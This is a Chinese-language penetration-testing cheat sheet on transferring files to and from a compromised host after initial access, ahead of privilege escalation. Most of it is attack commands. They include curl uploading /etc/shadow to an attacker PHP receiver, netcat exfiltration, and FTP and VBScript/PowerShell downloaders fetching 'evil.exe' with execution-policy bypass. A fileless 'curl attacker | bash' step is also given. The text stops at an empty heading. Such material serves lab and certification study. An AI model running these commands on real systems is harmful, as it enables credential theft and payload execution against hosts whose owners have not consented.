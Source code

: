 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

#### 方法1：

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

#### 方法2：

```bash
// Attacker
cp /usr/share/.../nc.exe /ftphome/
systemcrl restart pure-ftpd
```

```bash
// Target
echo open 攻方IP >> ftp.txt
echo USER 用户名 >> ftp.txt
echo 密码 >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

// 执行ftp.txt
ftp -v -n -s:ftp.txt
```

### 利用SCP传输

使用 SCP（Secure Copy Protocol）在 Linux 系统中进行文件传输时，实际上是在通过 SSH 连接进行加密传输。

```bash
// 格式
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
scp /path/to/local/file username@remote_host:/path/to/destination
```

#### 将文件上传到目标主机

```bash
// Attacker
scp example.txt username@remote_host:/home/username/
scp /path/to/local/file username@remote_host:/path/to/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

#### 将目标主机中的文件下载到本地

```bash
// Attacker
scp username@remote_host:/path/to/remote/file /path/to/local/destination
scp username@remote_host:/home/username/example.txt /path/to/local/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

### SCP + SSH

若已经配置了 SSH 密钥认证，则可以免去输入密码的步骤。在执行 SCP 命令时，系统会自动使用 SSH 密钥进行认证。









### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```

### 利用VBScript传输

该脚本适用于VBScript：Windows XP / Windows 2003&#x20;

```powershell
// Target
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

<pre class="language-powershell"><code class="lang-powershell">// Target
<strong>cscript wget.vbs http://攻方IP/evil.exe evil.exe
</strong></code></pre>

该脚本适用于Powershell：Windows 7 / Windows 2008 / 及以上版本

```powershell
// Target
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://攻方IP/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

// 设置wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

// 执行wget.ps1
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://攻方IP/evil.exe', 'new-exploit.exe')
```

* `powershell.exe`: 启动 PowerShell 解释器。
* `-ExecutionPolicy Bypass`: 设置脚本执行策略为 Bypass，即绕过执行策略限制，允许执行未签名的脚本。
* `-NoLogo`: 执行时不显示 PowerShell 的启动标志。
* `-NonInteractive`: 设置为非交互模式，即不会提示用户进行任何交互操作。
* `-NoProfile`: 在执行过程中不加载 PowerShell 用户配置文件。
* `-File wget.ps1`: 指定要执行的 PowerShell 脚本文件，这里假设文件名为 wget.ps1。

## 隐蔽方式

### 方法1：

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中

### 方法2：

